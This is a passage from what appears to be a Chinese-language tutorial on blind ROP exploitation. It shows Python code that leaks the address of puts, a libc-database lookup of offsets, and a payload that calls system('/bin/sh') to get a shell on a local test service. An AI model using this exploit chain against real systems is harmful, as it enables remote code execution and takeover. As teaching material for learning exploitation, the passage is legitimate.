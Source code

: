 #### attack
后面的过程和无 libc 的利用差不多了，先使用 puts 打印出其在内存中的地址，然后在 libc-database 里查找相应的 libc，也就是目标机器上的 libc，通过偏移计算出 `system()` 函数和字符串 `/bin/sh` 的地址，构造 payload 就可以了。

```python
def get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got):
    pop_rdi  = gadgets_addr + 9

    payload  = "A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    p = remote('127.0.0.1', 10001)
    p.recvline()
    p.sendline(payload)
    data = p.recvline()
    data = u64(data[:-1] + '\x00\x00')
    log.info("puts address: 0x%x" % data)
    p.close()

    return data
```
```
[*] puts address: 0x7ffff7a90210
```

这里插一下 [libc-database](https://github.com/niklasb/libc-database) 的用法，由于我本地的 libc 版本比较新，可能未收录，就直接将它添加进去好了：
```
$ ./add /usr/lib/libc-2.26.so   
Adding local libc /usr/lib/libc-2.26.so (id local-e112b79b632f33fce6908f5ffd2f61a5d8058570  /usr/lib/libc-2.26.so)
  -> Writing libc to db/local-e112b79b632f33fce6908f5ffd2f61a5d8058570.so
  -> Writing symbols to db/local-e112b79b632f33fce6908f5ffd2f61a5d8058570.symbols
  -> Writing version info
```
然后查询（ASLR 并不影响后 12 位的值）：
```
$ ./find puts 210
/usr/lib/libc-2.26.so (id local-e112b79b632f33fce6908f5ffd2f61a5d8058570)
$ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570
offset___libc_start_main_ret = 0x20f6a
offset_system = 0x0000000000042010
offset_dup2 = 0x00000000000e8100
offset_read = 0x00000000000e7820
offset_write = 0x00000000000e78c0
offset_str_bin_sh = 0x17aff5
$ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570 puts
offset_puts = 0x000000000006f210
```

```python
offset_puts   = 0x000000000006f210
offset_system = 0x0000000000042010
offset_str_bin_sh = 0x17aff5

system_addr = (puts_addr - offset_puts) + offset_system
binsh_addr  = (puts_addr - offset_puts) + offset_str_bin_sh

# get shell
payload  = "A"*buf_size
payload += p64(gadgets_addr + 9)    # pop rdi; ret;
payload += p64(binsh_addr)
payload += p64(system_addr)
```